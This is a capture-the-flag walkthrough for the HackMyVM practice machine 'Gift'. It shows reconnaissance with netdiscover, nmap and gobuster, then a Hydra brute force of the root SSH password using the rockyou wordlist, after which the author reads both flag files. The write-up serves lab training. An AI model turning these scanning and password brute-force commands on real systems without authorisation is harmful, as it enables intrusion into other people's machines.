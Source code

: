 # Gift

![image](https://user-images.githubusercontent.com/44063862/95709656-af8d5b00-0c91-11eb-847e-d7f76afa6715.png)

## :link: Link 

[Gift](https://hackmyvm.eu/machines/machine.php?vm=Gift)

## Penetration Testing Methodology

**Reconnaissance**
* nmap

**Exploitation**
* Hydra

**Capturing the flag**
* User.txt
* Root.txt

_______________________________________________________________________________________________________

## Walkthrough

```
netdiscover
```

![image](https://user-images.githubusercontent.com/44063862/95709799-009d4f00-0c92-11eb-845d-c300d0f20c7a.png)

```
nmap -A -Pn 192.168.186.131
```

![image](https://user-images.githubusercontent.com/44063862/95711421-50c9e080-0c95-11eb-83eb-5da4ead99519.png)

From the nmap scanning. I found that 3 port open. Which is
* 22 (ssh)
* 80 (http)

I browse the given IP address.

![image](https://user-images.githubusercontent.com/44063862/95711504-7951da80-0c95-11eb-9c23-d9f32588180f.png)

And view the page source

![image](https://user-images.githubusercontent.com/44063862/95711547-8e2e6e00-0c95-11eb-8e87-e5c77cad5309.png)

But, I don't get anything from the websites. 

I decided to use gobuster against the ip.

```
gobuster dir -u http://192.168.186.131/ -w /root/Lists/directory-list-2.3-medium.txt -t 80 -x .txt,.php,.html,.pdf,.doc,.zip
```

![image](https://user-images.githubusercontent.com/44063862/95711644-cc2b9200-0c95-11eb-8b8d-35b16536264e.png)

Well, nothing... 

I'm stucked.. We only have 2 port opened which is 22 and 80. But, I don't get anything from the port 80. What can i do?

BRUTE-FORCE!!

I will be using hydra and as root (as we do not have any other username).

```
hydra -t 64 -P /root/Lists/rockyou.txt -l root ssh://192.168.186.131
```

![image](https://user-images.githubusercontent.com/44063862/95711873-3fcd9f00-0c96-11eb-91d4-bc6c5b7be359.png)

Okay we got the password. Let's get in.

Well:

```
whoami
ls
cat root.txt
cat user.txt
```

![image](https://user-images.githubusercontent.com/44063862/95712001-88855800-0c96-11eb-86c9-ecf70e8cef11.png)

Yeayyy, we got it. OMG! It is this simple??

CONGRATULATIONS!! Good for beginner.

Thank you for reading. :)

**By _AdaniKamal_**
